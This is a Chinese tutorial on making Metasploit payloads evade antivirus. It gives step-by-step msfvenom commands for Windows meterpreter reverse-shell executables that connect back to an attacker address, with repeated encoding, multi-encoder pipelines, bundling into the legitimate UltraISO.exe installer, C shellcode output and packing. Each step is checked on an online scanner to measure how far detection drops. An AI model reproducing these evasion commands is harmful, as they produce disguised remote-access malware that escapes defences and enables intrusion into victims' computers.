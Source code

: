 1. 杀软是如何检测出恶意代码的？

   ​	特征码、启发式恶意软件检查和行为。

2. 免杀是做什么？

   ​	对特征进行混淆，打乱代码，避免杀毒软件查杀

3. 免杀的基本方法有哪些？

   ​	自编码处理  自捆绑+编码  多重编码   接口下载式  签名伪装式

针对杀毒软件的基本检测方法，我们可有以下几种方法实现免杀：

改变特征码
改变行为
其它

由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果

要用到的在线查毒工具virscan提供

https://www.virscan.org/

# 一、不处理payload直接生成样本进行检测

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -f exe -o payload1.exe
```

![1645511560404](https://img.gyxnb.top/img/1645511560404.png)

进行查毒有41%的杀毒软件报毒了

具体查毒结果链接：

https://r.virscan.org/language/en/report/27ea53bab44e0a023b57c27991f02cf9

![1645511550808](https://img.gyxnb.top/img/1645511550808.png)

# 二、 MSF自编码处理payload生成样本进行检测

首先我们输入   `msfvenom --list encoders`   查看可以用编码模块

![1645511543145](https://img.gyxnb.top/img/1645511543145.png)

我们使用  `x86/shikata_ga_nai` 模块 免杀中使用频率最高的一个编码器

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai HOST=192.168.70.3  LPORT=4456 -f exe -o payload1.exe
```

进行查毒有37%的杀毒软件报毒了

![1645511533351](https://img.gyxnb.top/img/1645511533351.png)

# 三、MSF自捆绑处理payload生成样本进行检测

使用msfvenom的**-x参数可以指定一个可执行文件**,将payload与其捆绑

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -x UltraISO.exe -f exe -o payload2.exe
```

![1645511525813](https://img.gyxnb.top/img/1645511525813.png)

进行查毒有37%的杀毒软件报毒了

![1645511516751](https://img.gyxnb.top/img/1645511516751.png)

# 四、MSF自捆绑+编码处理payload生成样本进行检测

结合第二种，第三种。编码方式我们再次生成样本

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 10 -f exe -o payload3.exe
```

![1645511507586](https://img.gyxnb.top/img/1645511507586.png)

进行查毒有31%的杀毒软件报毒了

![1645511497457](https://img.gyxnb.top/img/1645511497457.png)

那我们**继续增加编码次数**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 20 -f exe -o payload4.exe
```

进行查毒有27%的杀毒软件报毒了!

![1645511487704](https://img.gyxnb.top/img/1645511487704.png)

# 五、MSF多重编码payload生成样本进行检测

通过管道，让msfvenom用不同编码器反复编码进行混淆。使用管道让msfvenom对攻击载荷多重编码，**先用shikata_ga_nai编码10次，接着来10次的alpha_upper编码，再来10次的countdown编码**，最后才生成**以UltraISO.exe为模板**的可执行文件payload5.exe。

```
msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=192.168.70.3 LPORT=4456 -f raw | msfvenom -p windows/meterpreter/reverse_tcp -e x86/alpha_upper -i 10 -f raw | msfvenom -p windows/meterpreter/reverse_tcp -e x86/countdown -i 10 -x UltraISO.exe -f exe -o payload5.exe
```



# 六、 生成Shellcode使用C语言调用

1、直接在linux中利用msf的meterpreter生成的文件以.c形式文件存储，得到机器码。命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4456 -f c >c0001.c
```

![1645511458128](https://img.gyxnb.top/img/1645511458128.png)

2、改c文件，并编译，并加壳

![1645511469800](https://img.gyxnb.top/img/1645511469800.png)

随便写一个hello world

```
main() {
printf("hello world\n");
}
```

然后编译 并加壳

**vmp**加壳工具